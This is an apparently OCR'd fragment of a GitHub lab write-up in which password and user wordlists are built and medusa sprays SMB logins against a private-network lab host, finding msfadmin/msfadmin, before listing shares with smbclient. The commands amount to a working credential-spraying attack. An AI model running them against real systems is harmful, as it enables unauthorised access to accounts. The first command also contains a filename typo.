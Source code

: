 echo -e ‘password\n123456\nWelcome\nmsfadmin’ > senhas_spray.tx

echo -e ‘user\nmsfadmin\nservice’ > smb_users.txt

medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt  -M smbnt -t 2 -T 50

2025-10-26 13:58:11 ACCOUNT FOUND [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCESS (ADMIN$ - Acess Allowed)]

smbclient -L //192.168.56.101 -U msfadmin
<img width="886" height="398" alt="image" src="https://github.com/user-attachments/assets/b683300d-b205-42b7-8199-4d0b24744153" />









